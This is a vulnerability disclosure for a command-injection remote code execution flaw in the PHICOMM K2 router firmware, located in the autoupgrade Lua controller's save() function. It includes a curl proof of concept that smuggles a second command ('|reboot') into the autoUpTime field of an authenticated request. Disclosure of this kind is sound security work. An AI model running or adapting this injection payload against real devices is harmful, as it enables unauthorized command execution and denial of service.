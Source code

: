 - **Vendor Of The Product**

    PHICOMM

- **Affected Products and Firmware version**

    PHICOMM  K2(PSG1218)    V22.5.9.163

- **Vulnerability**

    Remote Code Execution

- **Exploitation**

    Remote command execution on the root shell by modifying the content in the HTTP post request.

- **Affected Components**

    Affected source code file: /usr/lib/lua/luci/controller/admin/autoupgrade.lua

Affected function: save()

- **Vulnerability Details**

    Firstly, After the web login Authentication or a session hijack vulnerability, or a weak credentials brute force attack to get access permissions, sending a crafted packet to the device:

    ```shell
    curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx'
    ```

    In this http packet, we add the command we want to execute *'reboot'* to the packet content.

   ![auto_upgrade_web_code](fig/auto_upgrade_web_code.png)

    We could see that the value of *'autoUpTime'* is assigned to a variable directly without checking whether the value is modified maliciously and then sent to the server.

    ![auto_upgrade_lua_code](fig/auto_upgrade_lua_code.png)

    Then, the server appends the data to a command directly without checking whether the data is modified maliciously too, causing the command that the attacker wants to execute to be attached to the command.

    Finally, the router will execute the command "reboot", which causes a DoS.
